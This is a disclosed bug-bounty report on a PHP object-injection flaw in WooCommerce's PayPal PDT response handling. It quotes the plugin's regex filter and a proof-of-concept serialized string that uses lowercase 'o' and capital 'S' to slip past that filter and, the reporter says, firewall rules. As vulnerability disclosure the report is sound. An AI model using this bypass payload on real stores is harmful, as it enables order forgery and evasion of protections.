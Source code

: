 # Object Injection in Woocommerce / Handle PDT Responses from PayPal

## Report Details
- **Report ID**: 245228
- **URL**: https://hackerone.com/reports/245228
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-07-02T01:13:06.370Z
- **Disclosed**: 2017-09-11T13:48:49.750Z

## Reporter
- **Username**: b258ea62bf297b02afa9854
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
At this moment prevention from object injection is in the following line of code: 
```
preg_match( '/^a:2:{/', $raw_custom ) && ! preg_match( '/[CO]:\+?[0-9]+:"/', $raw_custom ) && ( $custom = maybe_unserialize( $raw_custom ) )
```
but the PHP native [unserialize](https://github.com/php/php-src/blob/master/ext/standard/var_unserializer.c) function supports little `o` as option in it and it is a StdClass object. 

Due this protection, we have a bypass (PoC below) e.g. due the fact how woocommerce gets the order we can set any order object we want. As an extra, if combined with capital `S` then for some attacks even known firewall rules will fail/will be bypassed.
```
$attack_str = 'a:2:{i:1;s:3:"key";i:0;o:3:"s:2:"ID";o:1:"s:0:"";o:1:"s:2:"ID";S:1:"1";}}s:9:"order_key";s:3:"key";s:9:"post_type";s:2:"ok";}}';

if (preg_match( '/^a:2:{/', $attack_str ) && ! preg_match( '/[CO]:\+?[0-9]+:"/', $attack_str )){
	var_dump(unserialize($attack_str));
}
```


## Attachments
No attachments

